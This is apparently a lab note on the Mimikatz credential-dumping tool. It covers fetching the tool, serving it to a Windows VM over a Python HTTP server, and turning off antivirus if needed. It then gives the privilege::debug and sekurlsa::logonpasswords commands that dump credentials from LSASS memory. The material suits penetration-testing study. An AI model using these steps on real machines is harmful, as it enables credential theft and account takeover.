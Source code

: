
## **Overview**


- Tool used to view and steal credentials, generate kerberos tickets and leverage attacks
- Dump credentials stored in memory
- Few more attacks : Credential dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Silver Ticket and Golden Ticket


## **Installation**

- Download the mimikatz file[.zip] from [here](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip) on your kali machine
- Open the zipped file and navigate to the `/x64/` folder
- Transfer all files in this folder to your windows client machine, In our case it is **SPIDERMAN**
	- We can start up a python3 server on our Attacker machine with `python3 -m http.server 80`
	- Then navigate to your windows machine and open up a browser then type in our Attacking machine IP
	- Look for the files and download them (If you have any difficulty turn off your windows Antivirus)

![](https://i.imgur.com/HwRcWdk.png)

- Open up a Command Prompt with **Administrative privileges** on our SPIDERMAN VM and change directory to downloads (Where the Mimikatz file is located at)

![](https://i.imgur.com/QcWQSpt.png)


## **General Usage**

```powershell
# start mimikatz
c:\Users\peterparker\Downloads>mimikatz.exe

# start debug mode for full efficiency
mimikatz # privilege::debug

# List available options
mimikatz # sekurlsa::
```

### **Dump Hashes in LSASS**  

```powershell
mimikatz # sekurlsa::logonpasswords
```